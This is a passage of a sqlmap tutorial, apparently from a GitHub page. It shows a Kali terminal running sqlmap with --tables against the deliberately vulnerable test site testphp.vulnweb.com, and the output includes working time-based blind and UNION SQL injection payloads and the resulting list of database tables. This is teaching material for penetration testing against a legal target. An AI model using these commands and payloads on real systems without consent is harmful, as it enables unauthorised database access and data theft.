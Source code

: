    `--tables`: Enumerate DBMS database tables

   ```shell
   ┌──(dyl4n㉿kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart --tables
           ___
          __H__
    ___ ___[']_____ ___ ___  {1.7.2#stable}
   |_ -| . [.]     | .'| . |
   |___|_  [,]_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 05:06:09 /2023-04-20/

   [05:06:09] [INFO] resuming back-end DBMS 'mysql'
   [05:06:12] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [05:06:16] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [05:06:16] [INFO] fetching tables for database: 'acuart'
   Database: acuart
   [8 tables]
   +-----------+
   | artists   |
   | carts     |
   | categ     |
   | featured  |
   | guestbook |
   | pictures  |
   | products  |
   | users     |
   +-----------+

   [05:06:16] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 05:06:16 /2023-04-20/

   ```
